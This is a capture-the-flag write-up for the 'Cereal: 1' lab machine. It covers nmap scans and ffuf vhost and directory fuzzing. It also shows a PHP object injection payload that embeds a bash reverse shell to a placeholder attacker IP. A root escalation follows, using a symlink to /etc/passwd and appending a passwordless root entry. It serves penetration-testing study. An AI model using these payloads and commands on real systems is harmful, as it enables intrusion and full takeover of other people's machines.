


# Cereal: 1

### Nmap Scan

```bash
PORT      STATE SERVICE    REASON         VERSION
21/tcp    open  ftp        syn-ack ttl 64 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0               6 Apr 12  2021 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.176.154.65
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp    open  ssh        syn-ack ttl 64 OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 00:24:2b:ae:41:ba:ac:52:d1:5d:4f:ad:00:ce:39:67 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC1YeWXB5by9kXGB7MuGgw5mQ0+E1oj2buX5ReuNg7llxWF88qnGPVL3w+IAKBtFVf+WBtHs49AndSFp7zKFfgCbEvZ8GiBP9/EZvRFPiZ/nuvhsOgJKrtDdPPtdrUpaT7H21bu0c7zUk6H5QH6Ut8U4ekGOEFj41ofG6iypewjowyk2I93Tdx10oiyTYHzYb20S7PsfZpLccEoOqL7QmWTxwzcHEqcerpw4lB3WqGAe/PvQIuvMUe9wGahi5nhaFeTA/VEWcXldQeWecZTkhcBo5gaJJcFnyN1ipCSDBhanMK0J4k6BxvEX6DKxMiyRuMVVgvT+rysvJ3gIMnzP+/JHpVQHV8q5XvZj8OyWYdqHNMNf2Zq5E9jxfY1/KXOrRYHZ9Vcw5uz2x/bZR2VfUNEJDhJ31MgFhZoiL+/VfbKr+9LdrXJ7ayp9FBajwwle8zLZzbG6OdJp/BqH4emVwhLuCxMYaT/hTwKIMQs3f4R4U36OT6Md9uaK+gxVK4DwuU=
|   256 1a:e3:c7:37:52:2e:dc:dd:62:61:03:27:55:1a:86:6f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBF9Am1a9LxKgFbVFzdq7u0NA7c27U+45x7ZbKcKvoPwarkpCoTzNAnL/2Zc2OQYifaqFO455pysgVpkX7F8mCA=
|   256 24:fd:e7:80:89:c5:57:fd:f3:e5:c9:2f:01:e1:6b:30 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB/z2UKBK9zWIKPuHJXEkheH7z0qbtQCrL/wSb8Fu71c

80/tcp    open  http       syn-ack ttl 64 Apache httpd 2.4.37 (())
|_http-server-header: Apache/2.4.37 ()
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-title: Apache HTTP Server Test Page powered by: Rocky Linux

139/tcp   open  tcpwrapped syn-ack ttl 64

445/tcp   open  tcpwrapped syn-ack ttl 64

3306/tcp  open  mysql      syn-ack ttl 64 MariaDB 10.3.24 or later (unauthorized)

11111/tcp open  tcpwrapped syn-ack ttl 64

55555/tcp open  tcpwrapped syn-ack ttl 64
MAC Address: 00:0C:29:49:16:80 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14

Uptime guess: 20.850 days (since Wed Jul 23 21:29:53 2025)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Unix

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 57875/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 38384/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 45413/udp): CLEAN (Failed to receive data)
|   Check 4 (port 40279/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb2-time: Protocol negotiation failed (SMB2)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
```

- Ensure that all necessary Nmap port scans are conducted to avoid missing any open ports.
- All Open Ports:
    
    ```bash
    PORT      STATE SERVICE
    21/tcp    open  ftp
    22/tcp    open  ssh
    80/tcp    open  http
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    3306/tcp  open  mysql
    11111/tcp open  vce
    22222/tcp open  easyengine
    22223/tcp open  unknown
    33333/tcp open  dgi-serv
    33334/tcp open  speedtrace
    44441/tcp open  unknown
    44444/tcp open  cognex-dataman
    55551/tcp open  unknown
    55555/tcp open  unknown
    ```
    

---

### Website

- Apache HTTP server Test Page


> **Host-Name: `cereal.ctf`  → add this to /etc/hosts file**
> 


---

### Hidden Directory

- There is nothing vulnerable in these sites.

```bash
/blog
/admin
/wp-admin
```

---

### Port 44441 - (HTTP)

- In the Nmap scan, there are many ports that are unresponsive or not useful except 44441.


- Regular fuzzing didn't return any results, but when we performed vhost fuzzing, we got a response.

```bash
ffuf -u 'http://cereal.ctf:44441' -H 'Host: FUZZ.cereal.ctf' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt  -fs 15
```


> **NOTE: Add host name to /etc/hosts → `secure.cereal.ctf`**
> 

```
**NOTE:** Use /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt → other dictionary may not contain useful results.
```

- Fuzz the site and you'll find → `/back_en`


- After searching a lot we find → `index.php.bak`

```
ffuf -u http://secure.cereal.ctf:44441/back_en/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt 
```


> **PHP Object Injection (POI)**
> 
- This code is vulnerable because it unserializes user data without checks, letting attackers create objects that can run harmful code on the server.

```php
<?php
class pingTest 
{
        public $ipAddress = " ; bash -c 'bash -i >& /dev/tcp/<your_IP>/1337 0>&1'";
        public $isValid = True;
}
echo urlencode(serialize(new pingTest));
?>
```

> Make sure you change the IP
> 
- Run the above PHP code → and copy&paste the output to obj parameter

```bash
php exploit.php
```


- paste this output to obj parameter and start the netcat listener




---

### Privilege Escalation

- **Local Flag → User Flag**


```
aaa87365bf3dc0c1a82aa14b4ce26bbc
```

- After running LinPEAS on the target system, no significant findings were discovered.
- A MariaDB service is running on the system; however, despite extensive enumeration, no useful information or vulnerabilities have been identified.

> **LinPEAS was not very helpful, but Pspy provided some useful information.**
> 


- There is script that is own by root `/usr/share/scripts/chown.sh`



- This script changes the owner & group of every file in `/home/rocky/public_html/`
- We can make a symbolic link to `/etc/passwd` from this folder. Then the script can change its permissions to make it writable.

> **create a symbolic-link:**
> 

```bash
ln -s /etc/passwd /home/rocky/public_html/passwd
```


- Wait for the script to execute, Once the group change to `apache`
- we can overwrite the `/passwd` file.
- This allow us a root access without authentication

```bash
echo root::0:0:root:/root/bin/bash >> /home/rocky/public_html/passwds
```


> **Note: Ensure the shell is stabilized to avoid issues during execution.**
> 
> 
> https://hacktricks.boitatech.com.br/shells/shells/full-ttys → python is available.
> 

```bash
su 
```


- **Proof Flag → Root Flag**


---

### Access to Database → Not Helpful

- Database credentials were discovered during the LinPEAS enumeration.

> newuser:VerySecureRandomPassword!
> 

```bash
mysql -u newuser -p -h localhost 
```


---

### FTP → Anonymous FTP login allowed

- Successfully accessed the FTP server and found a directory named `pub`.
- However, the `pub` directory contained no useful information.

---

## Conclusion

This machine is considered intermediate, but some parts felt more challenging, especially during enumeration. VHOST and directory fuzzing were tricky a single wordlist wasn’t enough, so I had to try multiple ones to find the right paths. There were also many open ports, but most turned out to be dead, which made things more confusing.

Due to these confusion and time taking process, I referred to some write-ups from other authors to help move forward. Overall, it was a good machine → once you get a shell, the rest is much more straightforward.